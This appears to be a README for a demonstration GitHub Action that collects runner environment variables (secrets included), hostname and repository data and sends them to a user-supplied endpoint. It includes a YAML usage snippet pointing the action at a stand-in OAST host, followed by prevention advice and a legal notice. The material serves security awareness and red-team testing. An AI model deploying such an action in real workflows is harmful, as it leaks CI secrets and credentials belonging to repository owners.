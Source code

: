# Malicious Action Demo

This is a demonstration of how malicious GitHub Actions can exfiltrate data from runners.

## ⚠️ WARNING

This is for **educational and security testing purposes only**. Do not use this for malicious purposes.

## What This Action Does

1. **Collects Data**: Gathers hostname, environment variables, and repository information
2. **Exfiltrates Data**: Sends collected data to a specified endpoint
3. **Demonstrates Attack**: Shows how malicious actions can steal sensitive information

## Usage

```yaml
- name: Malicious Data Exfiltration
  uses: ./malicious-action-demo
  with:
    target_endpoint: 'your-oast-endpoint.com'
    data_type: 'hostname'  # or 'environment', 'repository_info', 'all'
```

## Data Collected

- **Hostname**: Runner hostname information
- **Environment**: All environment variables (including secrets)
- **Repository Info**: Repository metadata and context
- **Metadata**: Timestamp and action information

## Prevention

1. **Pin Actions**: Always pin to specific commit SHAs
2. **Review Code**: Check action source code before use
3. **Use Trusted Sources**: Only use actions from trusted repositories
4. **Implement Policies**: Use security policies to control action usage
5. **Monitor Usage**: Track action usage and data exfiltration attempts

## Security Testing

This action is designed for:
- Security awareness training
- Penetration testing
- Red team exercises
- Security policy validation

## Legal Notice

Use this action only on repositories you own or have explicit permission to test. Unauthorized use may violate terms of service and applicable laws.

